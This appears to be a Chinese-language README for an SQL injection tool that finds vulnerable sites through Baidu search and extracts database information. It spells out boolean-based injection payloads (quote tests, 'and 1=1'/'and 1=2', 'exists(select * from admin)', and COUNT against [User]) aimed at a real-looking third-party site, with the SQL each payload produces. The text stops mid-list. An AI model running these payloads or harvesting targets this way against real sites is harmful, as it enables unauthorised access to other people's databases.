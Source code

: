 

sql注入检测工具


功能：
检测网站是否存在sql注入点，并获取数据库信息。

特点：
1.从百度搜索sql注入点
2.指定网站地址搜索注入点
3.指定url注入点

注入点检测：
1.(')
正常url：http://cn.kontech.com.cn/about.php?id=1
构造url：http://cn.kontech.com.cn/about.php?id=1'
结果：异常
sql查询语句: select * from db where id='''
2.(' and '1'='1)或( and 1=1)
正常url：http://cn.kontech.com.cn/about.php?id=1
构造url：http://cn.kontech.com.cn/about.php?id=1' and '1'='1
结果：正常
sql查询语句：select * from db where id='1' and '1'='1'
3.(' and '1'='2)或( and 1=2)
正常url：http://cn.kontech.com.cn/about.php?id=1
构造url：http://cn.kontech.com.cn/about.php?id=1' and '1'='2
结果：异常
sql查询语句：select * from db where id='1' and '1'='2'

数据库名不需要猜解。

猜数据库的表名：
1.( and exists(select * from admin) and 1=1) 或 (' and exists(select * from admin) and '1'='1)
正常url：http://cn.kontech.com.cn/about.php?id=1
构造url：
http://cn.kontech.com.cn/about.php?id=1' and exists(select * from admin) and '1'='1
http://cn.kontech.com.cn/about.php?id=1 and exists(select * from admin) and 1=1
结果：正常
sql查询语句：select * from db where id='1' and exists(select * from admin) and '1'='1'
2.( and 0 <= (select COUNT(*) from [User]))






